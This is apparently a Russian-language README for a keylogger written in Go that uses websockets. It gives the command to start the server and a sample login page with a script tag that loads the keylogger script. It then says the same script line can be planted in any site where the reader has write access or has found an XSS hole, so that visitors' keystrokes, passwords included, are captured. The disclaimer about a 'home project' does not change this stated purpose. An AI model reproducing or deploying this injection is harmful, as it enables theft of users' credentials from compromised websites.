 # Дисклеймер
Автор не несет ответственности за использование вами этой программы.
Она создавалась в качестве домашнего проекта.
Использование этой программы в плохих целях может повлечь уголовную ответсвенность.

# keylogger
Простой кейлоггер, написанный на языке go, который использует websockets.

## Как это работает?
Для того, чтобы запустить программу нужно первоначально установить go. После установки, в терминале папке в папке с файлами ввести следующую комманду

go run main.go -listen-addr=127.0.0.1:8080 -ws-addr=127.0.0.1:8080
Эта комманда запускает на локальном сервере адресс для вебсокета, который будет принимать нажатые клавиши.

## Как протестировать кейлоггер?
Нужно перейти на сайт http://jsbin.com и ввести следующий код

``` 
<!DOCTYPE html>
<html>
<head>
<title>Login</title>
</head>
<body>
<script src='http://localhost:8080/k.js'></script>
<form action='/login' method='post'>
<input name='username'/>
<input name='password'/>
<input type="submit"/>
</form>
</body>
</html> 
```

После запуска программы в терминале начнут отобржаться буквы, который нажал пользователь.
Данная программа работает по следющиму принципу:
Если в сайте вы смогли получить доступ к изменению файлов или нашли xss уязвимость, то добавим строчку кода <script src='http://localhost:8080/k.js'></script> 
вы сможете получать к данным, которые вводят пользователи.

